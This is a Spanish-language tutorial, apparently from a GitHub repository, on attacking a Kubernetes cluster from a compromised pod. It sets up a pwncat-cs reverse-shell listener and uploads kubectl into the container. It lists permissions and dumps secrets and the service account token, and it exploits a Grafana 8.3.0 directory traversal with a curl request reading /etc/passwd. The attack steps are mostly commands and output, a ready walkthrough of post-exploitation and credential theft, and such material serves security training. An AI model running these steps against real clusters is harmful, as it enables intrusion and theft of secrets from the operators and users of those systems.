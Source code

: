 # Atacar un cluster de Kubernetes: dedes un pod a todo el cluster


 Esta basado en el video : https://www.youtube.com/watch?v=iD_klswHJQs


## Enumeración 

Si hacemos una nmap a una IP que tiene una aplicación que está en un cluster:

```console
$ nmap -v <IP>

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http

```
Obtendremos los puertos 80/443 de la aplicación y probablemente el puerto 22.

## Establecimiento inicial

Suponer que hemos conseguido abrir un shell en el contenedor aprovechando una vulnerabilidad como inyección de OS o de SQL.

Para ello se puede usar netcat pero hay herramientas interesantes como `pwncat-cs`:
```console
$ sudo pip install pwncat-cs

$ pwncat-cs -lp <LPORT>
```

Una vez abierto el shell, probablemente seamos `root` aunque veremos que el conjunto de instrucciones de las que disponemos es bastante limitado dentro del contenedor.

¿Cómo se sabe que estás dendro de un contenedor?

Hay varios indicios:

- Probablemente en habrá un archivo `/.dockerenv`
- El comando `env` tendrá información de diversos compenentes :
   ```
   KUBERNETES_PORT_443_TCP_PROTO=
   KUBERNETES_PORT_443_TCP_ADDR=
   KUBERNETES_SERVICE_HOST=
   KUBERNETES_PORT=
   ...
   GRAFANA_...=
   SYRINGE_...=
   ```


## Instalar kubectl

`kubectl`es la herramienta que permite gestionar un cluster de Kubernetes. Por tanto, es imprescindible para poder ejecurtarlo en el pod comprometido.

Una opción es subirlo al pod desde la maquina atacante con un `upload`, hacerlo accesible con un servidor web, ...

```console
cd /tmp

pwncat$ upload ./kubectl

chmod +x ./kubectl

```

Una vez disponemos de `kubectl` podemos comenzar a lanzar comandos contra el cluster de kubernetes.

Lo primero que podemos hacer es ver qué podemos hacer en  el clúster. Para ello, el siguiente comando nos dará esa respuesta
```console

$ ./kubectl auth can-i --list 

...
secrets []     []       [get list]
   [/openapi]  []       [get]       
    [/version] []       [get]      
...
```

Lo más interesante es que `secrets` son accesibles:
```console

$ ./kubectl get secrets

default-token-xxxxx   kubernetes.io/service-account-token    3  24d
developer-token-yyy   kubernetes.io/service-account-token    3  24d
   
...
```
Para ver el contenido de un  `secrets` se puede usar:

```console
$ ./kubectl get secrets developer-token-yyy -o json

{
   data:{
      ...
   }
}
...
```

Probablemente no tengamos permisos para ver otros pods que estén en ejecución:

```console
$ ./kubectl get pods
Error from server (Forbidden): ...
```

```console
$ curl -vvv http://grafana:3000 


$ curl -L http://grafana:3000 

```
Como conocemos que puede haber otros servicios ejecutando en el clúster (ver los resultados del comando `env`) intentamos conectar a esos servicios conociendo la IP y el puerto:

```console
$ curl -vvv http://grafana:3000 


$ curl -L http://grafana:3000 

```

Y buscar versiones vulnerables en alguno de los servicios. Por ejemplo, Grafana 8.3.0 que es vulnerable a Directory Traversal y es posible leer cualquier archivo (https://www.exploit-db.com/exploits/50581).

```console
$ curl --path-as-is http://grafana:3000/public/plugings/logs/../../../../../../../../../../../../../../etc/passwd 


```

El objetivo es obtener más `secrets`. Si buscamos en el pod comprometido vemos dónde pueden estar estos `secrets`, concretamente el token de acceso:

```console
$ cd /var/run/secrets/kubernetes.io/serviceaccount
$ ls
ca.crt   namespace   token
$ cat token
ey .....Xw
```




```

















